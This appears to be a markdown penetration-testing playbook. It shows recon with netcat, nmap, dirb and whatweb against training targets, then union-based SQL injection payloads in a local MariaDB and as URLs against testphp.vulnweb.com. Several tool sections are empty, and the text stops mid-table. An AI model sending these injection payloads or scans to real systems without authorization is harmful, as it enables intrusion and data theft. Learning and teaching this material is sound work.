










[TOC]


# Web Application VAPT Playbook

## 1. Information Gathering

### Banner grabbing/OS and Service enumeration

#### Netcat

```
# nc -v -n 149.56.244.87 80
(UNKNOWN) [149.56.244.87] 80 (http) open

HTTP/1.1 400 Bad Request
Date: Wed, 06 Oct 2021 06:11:39 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 305
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 149.56.244.87 Port 80</address>
</body></html>
```

To remove bad request

```
# echo -ne "HEAD / HTTP/1.1\r\nHost: mutillidae.local\r\n\r\n" > tmp/request 
```

```
nc mutillidae.local 80 < tmp/request                                      
HTTP/1.1 200 OK
Date: Thu, 07 Oct 2021 06:59:05 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Thu, 07 Oct 2021 01:30:06 GMT
ETag: "2c39-5cdb933e27ced"
Accept-Ranges: bytes
Content-Length: 11321
Vary: Accept-Encoding
Content-Type: text/html
```

#### Telnet

```
 # telnet www.megacorpone.com 80
 Trying 149.56.244.87...
 Connected to www.megacorpone.com.
 Escape character is '^]'.
 ^[
 HTTP/1.1 400 Bad Request
 Date: Wed, 06 Oct 2021 06:24:10 GMT
 Server: Apache/2.4.38 (Debian)
 Content-Length: 305
 Connection: close
 Content-Type: text/html; charset=iso-8859-1
 
 <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
 <html><head>
 <title>400 Bad Request</title>
 </head><body>
 <h1>Bad Request</h1>
 <p>Your browser sent a request that this server could not understand.<br />
 </p>
 <hr>
 <address>Apache/2.4.38 (Debian) Server at 149.56.244.87 Port 80</address>
 </body></html>
 Connection closed by foreign host.
 
```

#### Curl

```
# curl -I http://192.168.101.119/mutiilidae                                       
HTTP/1.1 404 Not Found
Date: Thu, 07 Oct 2021 06:39:40 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1
```


#### ID serve 


#### Nmap (Banner Grabbing/Service Enumeration)

  ````
  # nmap -sV -sT -A 149.56.244.87                                    
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 03:11 EDT
  Nmap scan report for www.megacorpone.com (149.56.244.87)
  Host is up (0.27s latency).
  Not shown: 996 closed ports
  PORT    STATE    SERVICE  VERSION
  22/tcp  open     ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
  | ssh-hostkey:
  |   2048 cd:bd:1d:f0:c2:fb:c3:d8:48:ef:7f:5f:ba:34:1f:06 (RSA)
  |   256 05:4e:c7:97:80:2e:68:73:64:9a:6f:4d:a3:6b:dd:1f (ECDSA)
  |_  256 d3:ac:5a:e7:e4:55:49:29:4c:58:9f:23:ee:5e:14:bd (ED25519)
  25/tcp  filtered smtp
  80/tcp  open     http     Apache httpd 2.4.38 ((Debian))
  |_http-server-header: Apache/2.4.38 (Debian)
  |_http-title: MegaCorp One - Nanotechnology Is the Future
  443/tcp open     ssl/http Apache httpd 2.4.38 ((Debian))
  |_http-server-header: Apache/2.4.38 (Debian)
  |_http-title: MegaCorp One - Nanotechnology Is the Future
  | ssl-cert: Subject: commonName=www.megacorpone.com
  | Subject Alternative Name: DNS:www.megacorpone.com
  | Not valid before: 2021-09-02T06:30:13
  |_Not valid after:  2021-12-01T06:30:12
  |_ssl-date: TLS randomness does not represent time
  | tls-alpn:
  |_  http/1.1
  Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), WatchGuard Fireware 11.8 (91%), Linux 2.6.35 (90%)
  No exact OS matches for host (test conditions non-ideal).
  Network Distance: 22 hops
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  TRACEROUTE (using proto 1/icmp)
  HOP RTT       ADDRESS
  1   0.80 ms   192.168.101.2
  2   8.84 ms   119.95.192.1.static.pldt.net (119.95.192.1)
  3   11.56 ms  122.2.175.190.static.pldt.net (122.2.175.190)
  4   9.70 ms   210.213.131.101.static.pldt.net (210.213.131.101)
  5   39.41 ms  210.213.135.117.static.pldt.net (210.213.135.117)
  6   28.39 ms  ae15-0-xcr1.hkg.cw.net (195.89.96.193)
  7   228.83 ms ae47.0-xcr1.sng.cw.net (195.2.16.149)
  8   196.88 ms ae34-xcr1.mrx.cw.net (195.2.2.57)
  9   210.80 ms ae5-xcr3.prp.cw.net (195.2.25.17)
  10  ... 13
  14  224.24 ms be103.rbx-g4-nc5.fr.eu (54.36.50.229)
  15  ...
  16  266.33 ms be100-1298.nwk-5-a9.nj.us (192.99.146.133)
  17  270.37 ms be102.bhs-g2-nc5.qc.ca (192.99.146.138)
  18  ... 21
  22  265.65 ms www.megacorpone.com (149.56.244.87)
  
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 56.73 seconds
  ````


#### Nmap (OS Fingerprinting)

  ```
  # nmap -O 149.56.244.87                                           
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 03:17 EDT
  Nmap scan report for www.megacorpone.com (149.56.244.87)
  Host is up (0.27s latency).
  Not shown: 996 closed ports
  PORT    STATE    SERVICE
  22/tcp  open     ssh
  25/tcp  filtered smtp
  80/tcp  open     http
  443/tcp open     https
  Aggressive OS guesses: Linux 2.6.32 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%), Linux 2.6.39 (90%)
  No exact OS matches for host (test conditions non-ideal).
  Network Distance: 22 hops
  
  OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 22.31 seconds
  
  ```


### Enumerate Webserver Directories

#### DirBuster


#### DIRB

- is a web content scanner that uses a wordlist to find directories and pages by issuing requests to the server. 

- can identify valid web pages on a web server even if the main index page is missing.

- By default, DIRB will identify interesting directories on the server but it can also be customized to search for specific directories, use custom dictionaries, set a custom cookie or header on each request, and much more.

  Let's run DIRB on www.megacorpone.com. We will supply several arguments: the URL to scan, -r to scan non-recursively, and -z 10 to add a 10 millisecond delay to each request:

  ```
  # dirb https://www.megacorpone.com -r -z 10                               
  
  -----------------
  DIRB v2.22
  By The Dark Raver
  -----------------
  
  START_TIME: Tue Oct  5 22:42:25 2021
  URL_BASE: https://www.megacorpone.com/
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  OPTION: Not Recursive
  SPEED_DELAY: 10 milliseconds
  
  -----------------
  
  GENERATED WORDS: 4612
  
  ---- Scanning URL: https://www.megacorpone.com/ ----
  + https://www.megacorpone.com/admin (CODE:403|SIZE:285)
  ==> DIRECTORY: https://www.megacorpone.com/assets/
  + https://www.megacorpone.com/index.html (CODE:200|SIZE:14603)
  ==> DIRECTORY: https://www.megacorpone.com/old-site/
  + https://www.megacorpone.com/robots.txt (CODE:200|SIZE:43)
  + https://www.megacorpone.com/server-status (CODE:403|SIZE:285)
  
  -----------------
  END_TIME: Tue Oct  5 23:04:18 2021
  DOWNLOADED: 4612 - FOUND: 4
  ```

  

#### Nmap

```
# nmap --script http-enum.nse 149.56.244.87
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 22:37 PST
Nmap scan report for www.megacorpone.com (149.56.244.87)
Host is up (0.27s latency).
Not shown: 996 closed ports
PORT    STATE    SERVICE
22/tcp  open     ssh
25/tcp  filtered smtp
80/tcp  open     http
| http-enum:
|_  /robots.txt: Robots file
443/tcp open     https
| http-enum:
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 64.96 seconds
```

   

### Web Enumeration

#### Whatweb

- recognizes web technologies including content management systems (CMS), blogging platforms, statistical/analytics packages, JavaScript libraries, web servers, and embedded devices.
- It has over 1700 plug-ins to recognize anything different and also identifies version numbers, email addresses, account IDs, web framework modules, SQL errors, and more.

```
# whatweb https://www.megacorpone.com
https://www.megacorpone.com [200 OK] Apache[2.4.38], Bootstrap, Country[UNITED STATES][US], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[149.56.244.87], JQuery[1.11.0], Script, Title[MegaCorp One - Nanotechnology Is the Future], X-UA-Compatible[IE=edge]
```

 ```
 # whatweb -v https://www.megacorpone.com
 WhatWeb report for https://www.megacorpone.com
 Status    : 200 OK
 Title     : MegaCorp One - Nanotechnology Is the Future
 IP        : 149.56.244.87
 Country   : UNITED STATES, US
 
 Summary   : Apache[2.4.38], Bootstrap, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], JQuery[1.11.0], X-UA-Compatible[IE=edge], HTML5, Script
 
 Detected Plugins:
 [ Apache ]
         The Apache HTTP Server Project is an effort to develop and
         maintain an open-source HTTP server for modern operating
         systems including UNIX and Windows NT. The goal of this
         project is to provide a secure, efficient and extensible
         server that provides HTTP services in sync with the current
         HTTP standards.
 
         Version      : 2.4.38 (from HTTP Server Header)
         Google Dorks: (3)
         Website     : http://httpd.apache.org/
 
 [ Bootstrap ]
         Bootstrap is an open source toolkit for developing with
         HTML, CSS, and JS.
 
         Website     : https://getbootstrap.com/
 
 [ HTML5 ]
         HTML version 5, detected by the doctype declaration
 
 
 [ HTTPServer ]
         HTTP server header string. This plugin also attempts to
         identify the operating system from the server header.
 
         OS           : Debian Linux
         String       : Apache/2.4.38 (Debian) (from server string)
 
 [ JQuery ]
         A fast, concise, JavaScript that simplifies how to traverse
         HTML documents, handle events, perform animations, and add
         AJAX.
 
         Version      : 1.11.0
         Website     : http://jquery.com/
 
 [ Script ]
         This plugin detects instances of script HTML elements and
         returns the script language/type.
 
 
 [ X-UA-Compatible ]
         This plugin retrieves the X-UA-Compatible value from the
         HTTP header and meta http-equiv tag. - More Info:
         http://msdn.microsoft.com/en-us/library/cc817574.aspx
 
         String       : IE=edge
 
 HTTP Headers:
         HTTP/1.1 200 OK
         Date: Wed, 06 Oct 2021 10:15:00 GMT
         Server: Apache/2.4.38 (Debian)
         Last-Modified: Wed, 06 Nov 2019 15:04:14 GMT
         ETag: "390b-596aedca79780-gzip"
         Accept-Ranges: bytes
         Vary: Accept-Encoding
         Content-Encoding: gzip
         Content-Length: 3779
         Connection: close
         Content-Type: text/html
 ```

#### ChecK HTTP Headers from browser

##### HTTP Headers Live

Add HTTP Header Live in Firefox add-ons


##### Wappalyzer

Add Wappalyzer in Firefox add-ons


#### Check HTTP Headers with curl

```
# curl -I http://192.168.101.119/mutiilidae                                       
HTTP/1.1 404 Not Found
Date: Thu, 07 Oct 2021 06:39:40 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1
```


## 2. Vulnerability Scanning

**Tools:**

### Nessus

### Acunetix

### OpenVAS

 

## 3. Exploitation

**Tools:**

### Metasploit

### Burpsuite

### Sqlmap

- exploiting SQL injection vulnerabilities

 

## 4. Reporting


## Information needed for WEB VAPT

### Types of Penetration Testing for Web Applications
1. **Internal Pen Testing**
- is performed within the organization via LAN, including testing web applications that are hosted on the intranet.
2. **External Pen Testing**
- focuses on attacks initiated from outside the organization to test web applications hosted on the internet.

 

### Web Application Enumeration

- Programming language and frameworks
- Web server software
- Database software
- Server operating system

 

### Web Application Assessment Methodology

Before we begin discussing enumeration and exploitation, we will talk about the basic web application penetration testing methodology.

As a first step, we should gather information about the application. 

- What does the application do?
- What language is it written in? 
- What server software is the application running on? 

 The answers to these and other basic questions will help guide us towards our first (or next) potential attack vector.

 As with many penetration testing disciplines, the goal of each attempted attack or exploit is to increase our permissions within the application or pivot to another application or target. Each successful exploit along the way may grant access to new functionality or components within the application. We may need to successfully execute several exploits to advance from an unauthenticated user account access to any kind of shell on the system.

 Enumeration of new functionality is important each step of the way especially since attacks that previously failed may succeed in a new context. As penetration testers, we must continue to enumerate and adapt until we've exhausted all attack avenues or compromised the system.


## Introduction to Packet Analysis

### Capturing Network Traffic with TCPDump

```
# tcpdump -i eth0 -nn -A -vvv -w tmp/packets.pcap
```

**Read pcap file**

```
# tcpdump -nn -A -vvv -r tmp/packets.pcap
```

**Read pcap file in Wireshark**

```
# wireshark tmp/packets.pcap &
```


-i Interface

-nn Do not resolve names

-A Also show ASCII and Hex captured

-v Be verbose

-w Write captured packets to PCAP file

-ccount — Exit after receiving count packets
-q Quick (quiet?) output. Print less protocol information

-r file Read packets from file created with the -w option or other tool

-X Also print (in hex) the data of each packet

-XX Also print (in hex) the data of each packet including link level header

### Packet Analysis with Wireshark

**Read pcap file in Wireshark**

```
# wireshark tmp/packets.pcap &
```


## SQL Injection

## Types of  SQL Injection

### 1. In band SQL Injections

#### Data - Union Based

     ```
     MariaDB [dark]> show tables;
     +----------------+
     | Tables_in_dark |
     +----------------+
     | login          |
     +----------------+
     1 row in set (0.001 sec)
     
     MariaDB [dark]> select * from login;
     +------+---------+----------+-------------+
     | id   | name    | password | country     |
     +------+---------+----------+-------------+
     |    1 | Sherwin | 12345    | Philippines |
     +------+---------+----------+-------------+
     1 row in set (0.000 sec)
     
     MariaDB [dark]> select * from login union select 1,2,3,4;
     +------+---------+----------+-------------+
     | id   | name    | password | country     |
     +------+---------+----------+-------------+
     |    1 | Sherwin | 12345    | Philippines |
     |    1 | 2       | 3        | 4           |
     +------+---------+----------+-------------+
     2 rows in set (0.001 sec)
     
     MariaDB [dark]> select * from login union select database(),2,3,4;
     +------+---------+----------+-------------+
     | id   | name    | password | country     |
     +------+---------+----------+-------------+
     | 1    | Sherwin | 12345    | Philippines |
     | dark | 2       | 3        | 4           |
     +------+---------+----------+-------------+
     2 rows in set (0.000 sec)
     
     MariaDB [dark]> select * from login union select user(),database(),version(),4;
     +----------------+---------+-----------------+-------------+
     | id             | name    | password        | country     |
     +----------------+---------+-----------------+-------------+
     | 1              | Sherwin | 12345           | Philippines |
     | root@localhost | dark    | 10.4.17-MariaDB | 4           |
     +----------------+---------+-----------------+-------------+
     2 rows in set (0.001 sec)
     ```


http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,2,3,4;



**To check the number of columns**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 order by 2
```



```
http://testphp.vulnweb.com/listproducts.php?cat=2 order by 20
```




```
https://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11
```




```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,database(),10,11
```

http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,user(),3,4,3,4,version(),8,database(),10,11



**To show all the database**

```
MariaDB [dark]> select schema_name from information_schema.schemata;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
| dark               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| test               |
